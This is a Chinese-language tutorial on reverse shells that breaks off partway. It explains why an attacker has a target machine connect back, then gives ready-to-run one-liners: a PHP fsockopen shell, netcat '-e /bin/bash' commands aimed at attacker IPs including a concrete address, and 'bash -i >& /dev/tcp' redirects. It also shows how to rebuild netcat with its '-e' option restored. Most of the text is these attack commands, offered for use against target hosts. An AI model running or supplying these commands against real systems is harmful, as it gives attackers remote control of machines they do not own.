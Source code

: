<https://cloud.tencent.com/developer/article/1818091>
反弹shell一篇够了<https://blog.csdn.net/mastergu2/article/details/120975065>

## **0x01.为什么要用反弹shell呢？**

反弹shell通常适用于如下几种情况：

•目标机因防火墙受限，目标机器只能发送请求，不能接收请求。
•目标机端口被占用。
•目标机位于局域网，或IP会动态变化，攻击机无法直接连接，使用反向连接来反弹shell。
•对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知的......

对于以上几种情况，我们是无法利用正向连接的，要用反向连接。

那么反向连接就很好理解了，就是攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，即为反向连接。

反弹shell的方式有很多，那具体要用哪种方式还需要根据目标主机的环境来确定，比如目标主机上如果安装有netcat，那我们就可以利用netcat(nc)或ncat(nc升级版)反弹shell，如果具有python环境，那我们可以利用python反弹shell。如果具有php环境，那我们可以利用php反弹shell。
如
```
php -r '$sock=fsockopen("47.xxx.xxx.72",2333);exec("/bin/sh -i <&3 >&3 2>&3");'
```



## **0x02.利用netcat(nc)反弹shell**

Netcat 是一款简单的Unix工具，使用UDP和TCP协议。它是一个可靠的容易被其他程序所启用的后台操作工具，同时它也被用作网络的测试工具或黑客工具。使用它你可以轻易的建立任何连接。

目前，默认的各个linux发行版本已经自带了netcat工具包，但是可能由于处于安全考虑原生版本的netcat带有可以直接发布与反弹本地shell的功能参数 -e 都被阉割了，所以我们需要自己手动下载二进制安装包，安装的如下：

```
wget https://nchc.dl.sourceforge.net/project/netcat/netcat/0.7.1/netcat-0.7.1.tar.gztar -xvzf netcat-0.7.1.tar.gz./configuremake && make installmake clean
```
安装完原生版本的 netcat 工具后，便有了netcat -e参数，我们就可以将本地bash反弹到攻击机上了。

**攻击机开启本地监听：**
```
netcat -lvvp 2333
nc -lvvp 2333
```
**目标机主动连接攻击机：**
```
netcat 47.xxx.xxx.72 2333 -e /bin/bash
nc <攻击机IP> <攻击机监听的端口> -e /bin/bash
nc 1.92.88.247 2333  -e /bin/bash
nc 1.92.88.247 2333  -e /bin/sh
```

## **0x03.利用Bash反弹shell**

反弹shell最好用的方法就是使用bash结合重定向方法的一句话，具体命令如下：
```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
或bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"
```
以下是针对Bash反弹一句话进行了拆分说明：
